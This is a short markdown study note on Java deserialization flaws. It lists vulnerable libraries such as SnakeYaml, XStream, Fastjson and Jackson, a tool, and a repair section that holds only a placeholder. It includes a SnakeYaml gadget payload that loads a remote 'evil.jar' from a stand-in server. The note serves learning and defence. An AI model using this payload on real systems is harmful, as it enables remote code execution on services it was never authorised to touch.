 ## `Overall` 
 Object transfer to String, file format and reverse.

## `Scene`
- session stored in database: replace cookie with malicious serialization data
- 


## `Type`
### 1.binary
- readObject()
- Hessian

### 2.yaml
- SnakeYaml
  - yaml.load(input);
```
!!javax.script.ScriptEngineManager[
  !!java.net.URLClassLoader[[
    !!java.net.URL["http://server/evil.jar"]
  ]]  
 ]
```

### 3.xml
- XStream.fromXML()
- 

### 4.json
- Fastjson: autoType
- Jackson: defaultTyping
- Self JSONUtil: JsonToString: setProperty: setter


## `Tools`
- Marshasec


## `Repair`

Use blacklist or whitelist to check the target class 
```
(show me the code)
```
